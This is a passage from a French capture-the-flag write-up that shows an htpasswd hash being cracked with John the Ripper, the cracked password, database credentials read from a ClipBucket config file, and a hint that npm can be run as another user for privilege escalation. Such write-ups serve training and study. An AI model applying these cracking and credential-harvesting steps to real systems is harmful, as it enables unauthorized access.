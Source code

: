 ```apacheconf
                Order allow,deny
                allow from all
                AuthType Basic
                AuthName "Restricted Content"
                AuthUserFile /etc/apache2/.htpasswd
                Require valid-user
        </Directory>
</VirtualHost>
```

On peut désormais accèder au site `broadcast` si on casse le hash présent dans le fichier `htpasswd` cité :

```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

```shellsession
$ ./john --wordlist=wordlists/rockyou.txt /tmp/hashes.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761drmfsls   (developers)     
1g 0:00:00:23 DONE (2022-11-15 13:55) 0.04310g/s 93153p/s 93153c/s 93153C/s 9981953..996851
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Le site fait tourner `ClipBucket v4.0`. Vu que ce site tourne avec Apache (et donc www-data) je ne voit pas d'intérêt d'exploiter le site.

Je récupère tout de même les identifiants de base de données dans `includes/dbconnect.php` :

```php
$BDTYPE = 'mysql';
//Database Host
$DBHOST = 'localhost';
//Database Name
$DBNAME = 'shuriken';
//Database Username
$DBUSER = 'admin';
//Database Password
$DBPASS = '5]ZAF776kBu]@$c&';
```

Aucun des deux mots de passe (celui du MySQL et celui du htpasswd) ne sont utilisables pour `server-management` et `root`.

## Get the f**k out

Une recherche plus généraliste permet de découvrir que `www-data` peut exécuter `npm` avec les droits de `server-management` :
